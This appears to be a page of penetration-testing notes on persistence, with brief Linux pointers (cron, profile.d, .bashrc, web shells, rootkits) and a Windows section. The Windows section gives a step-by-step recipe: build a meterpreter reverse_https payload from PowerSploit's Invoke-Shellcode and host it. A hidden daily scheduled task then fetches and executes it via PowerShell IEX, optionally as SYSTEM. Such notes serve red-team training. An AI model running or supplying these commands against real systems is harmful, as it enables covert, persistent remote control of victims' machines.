### Cron

* Can be used by users without root access to schedule tasks
* [https://blog.sucuri.net/2019/05/cronjob-backdoors.html](https://blog.sucuri.net/2019/05/cronjob-backdoors.html)
* _PTFM: Cron Job Persistence - pg. 88_

### Init Files

* Upon login, all Bourne-compatible shells source /etc/profile, which in turn sources any readable \*.sh files in /etc/profile.d/
* These scripts do not require an interprester nor do they need to be executable.

### Graphical environments

*   Gnome and KDE graphical start code

    • Rootkits

### .bashrc and .bash\_profile

* _PTFM: .bashrc and .bash\_profile Persistence - pg. 87_

### PHP Web Shell

* _PTFM: Web Shell Persistence - pg. 87_

## Windows

* [http://pwnwiki.io/#!persistence/windows/general.md](http://pwnwiki.io/#!persistence/windows/general.md) - General Windows Persistence Commands

### Scheduled tasks persistence

* _RTFM: Task Scheduler Persistence - pg. 32_
* _PTFM:  Task Scheduler - pg. 25_
* We can use Metasploit to configure a schtask to run once a day to connect back to our meterpreter handler
* First we grab and modify a copy of invoke-shellcode.
  * \#cd /opt/PowerSploit/CodeExecution
  * \#cp Invoke-Shellcode.ps1 1.ps1
* Next we edit the script to add our shell info
  * Add the following line when filling in the listener IP and port
  * \# invoke-Shellcode -Payload windows/meterpreter/reverse\_https -Lhost \[LISTENER IP] -Lport \[Listener-port] -Force;
* Now we have a shortened invoke-shellcode script and can move the file off to a web server
  * \#cp 1.ps1/var/www/
  * \#service apache2 start
* Verify by visiting htt\[://\[your ip]/1.ps1
* Now we add a command to schtasks that downloads and runs the target script everyday
  * \#schtasks /create /tn \[Fake (service name] /tr “c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -NoLogo -WindowStyle hidden -Noninteractive -ep bypass -nop -c ‘IEX ((new-object net.webclient).downloadstring(’ ‘http://\[Your IP]/1.ps1’ ‘ ’))' " /SC DAILY /ST 12:00:00
* Options
  * If you have system privileges you can run this under SYSTEM. Add “/ru System” to the above command
  * If you are attacking a 32 bit system, change the powershell location in schtask to “c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe”
